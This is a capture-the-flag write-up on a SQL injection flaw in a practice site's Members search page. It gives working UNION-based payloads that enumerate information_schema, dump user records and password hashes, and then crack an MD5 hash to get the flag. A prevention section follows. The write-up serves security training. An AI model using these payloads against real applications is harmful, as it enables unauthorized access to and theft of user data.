 # SQL Injection: Members Page Vulnerability

## Overview

A SQL Injection vulnerability found on the Members page allows attackers to exploit weak input validation and extract sensitive data.

---

## Discovery & Exploitation

### 1. Confirm the Vulnerability
- i.e. input in search: `1' OR TRUE`
- Result: With single quote did not work. After trying different SQL Payloads

- Input in search: `1 OR TRUE`
- Result: Returns all members, confirming SQL injection.

### 2. Extract DB and Table Info
- Query: `-1 union select database(), user()`
- Result: Reveals DB name and user.

- Query: `-1 UNION SELECT 1,table_name FROM information_schema.tables `
- Result: Reveals all Table names

### 3. Enumerate Structure
- Query: `-1 UNION SELECT table_name, column_name FROM information_schema.columns WHERE table_schema=database() --`
- Result: Lists table/column names (e.g., `users`, `user_id`, `first_name`, `Commentaire`, `countersign`, etc.)

another option is directly using hex value of the Table "users" which is 0x7573657273
since using quote i.e. FROM "users" is not possible

- Query: `-1 union select column_name, table_name FROM information_schema.columns WHERE table_name LIKE 0x7573657273`
- Result: Lists table/column names (e.g., `users`, `user_id`, `first_name`, `Commentaire`, `countersign`, etc.)

### 4. Dump User Data
- Query: `-1 UNION SELECT concat(Commentaire, countersign), concat(user_id,first_name,last_name, country,town,planet) FROM users --`
- Result: Exposes sensitive data, including password hashes and hints.

### 5. Crack the Flag
- Extract hash: `5ff9d0165b4f92b14994e5c685cdce28`
- MD5 decrypt: `FortyTwo` (use [dcode.fr](https://www.dcode.fr/md5-hash) or [crackstation.net](https://crackstation.net) to decode MD5)
- Lowercase: `fortytwo`
- Get SHA-256:
    ```bash
    echo -n 'fortytwo' | sha256sum
    ```
- Flag: `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

---

## Prevention

1. **Parameterized Queries**
    ```php
    $stmt = $db->prepare("SELECT * FROM users WHERE id = ?");
    $stmt->bind_param("i", $user_id);
    ```
2. **Input Validation**
    ```php
    if (!is_numeric($user_id)) { exit("Invalid input"); }
    ```
3. **Database Security**
    - Use least-privilege DB accounts
    - Hide error messages
    - Monitor activity

4. **Web Application Firewall**
    - Deploy a WAF to block common attacks

5. **Regular Security Testing**
    - Run frequent scans and penetration tests

---

> Weak input validation can lead to full data exposure. Always use secure coding practices to protect your applications.